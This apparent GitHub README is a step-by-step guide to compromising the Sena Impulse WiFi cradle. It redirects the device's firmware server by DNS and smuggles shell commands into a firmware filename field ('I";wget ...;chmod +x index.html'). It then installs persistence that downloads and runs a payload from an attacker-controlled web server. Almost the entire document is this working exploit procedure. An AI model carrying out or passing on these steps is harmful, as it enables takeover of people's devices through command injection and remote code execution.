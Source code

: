 # PWNing the Sena Wifi Cradle and its Derivatives
### (as tested on the Sena Impulse Wifi update part)

IMPORTANT: Make sure all text files got unix linefeeds

## Initial entering&PWNing (Sena Impulse):
* Doing a local DNS redirect of ```firmware.sena.com``` to your own LAN ip.
* Create a folder ```senabluetoothmanager```.
* Create a folder ```WiFiCradle/impulse```
* Create a file check.cdat with following content:

    SENA

(yes, the linefeed at the end matters)
* Download firmware.sena.com/senabluetoothmanager/Firmware and save it at the same folder on your local server.
* Replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";any_command_here```.  
That line change allows injection of arbitrary commands.
* Connect the Sena Impluse to the WiFi via the app or via manually doing the app commands.
## Getting Persistence
* copy the provided install.sh and PWNa.zip to the root directory of your server.
* rename install.sh to index.html (needed to bypass a quirk)
* In the Firmware index file replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";wget firmware.sena.com;chmod +x index.html```.
* Trigger a firmware update. It will seemingly succeed or "fail". Instead it ran the injected command.
* open https://IP_OF_SENA_IMPULSE/cgi-bin/index.html to install the persistence.
* Reboot and you got a file under https://IP_OF_SENA_IMPULSE/cgi-bin/exploit.sh which downloads a payload.sh from the root of your webserver.
